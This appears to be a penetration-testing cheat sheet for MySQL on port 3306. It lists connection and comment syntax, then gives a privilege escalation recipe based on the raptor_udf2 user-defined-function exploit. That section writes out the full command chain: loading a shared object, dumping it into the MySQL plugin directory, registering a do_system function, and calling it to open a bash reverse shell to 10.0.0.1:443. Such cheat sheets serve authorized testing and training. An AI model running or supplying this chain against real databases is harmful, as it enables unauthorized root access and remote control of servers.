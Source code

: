 ## TCP 3306 mysql

### Connecting to Mysql  
```mysql -u user --password db_name```

### MySQL Commands
```
# Get the db version information
SELECT @@VERSION; 

# Comment (Note the space)
-- comment 
#or
#comment
#or
/*comment*/
```

### Privilege Escalation

Mysql 4.x & 5.0 (requires valid creds) - [dynamic library for do_system() MySQL UDF-raptor_udf2.c](https://www.exploit-db.com/exploits/1518)
```mysql> create table foo(line blob);
mysql> insert into foo values(load_file(‘/tmp/exploit.so’));
mysql> select * from foo into dumpfile ‘/usr/lib/mysql/plugin/exploit.so’;
mysql> create function do_system returns integer soname ‘exploit.so’;
mysql> select do_system(‘bash -i >& /dev/tcp/10.0.0.1/443 0>&1’);
```
REF: [mysql system to root](https://recipeforroot.com/mysql-to-system-root/)

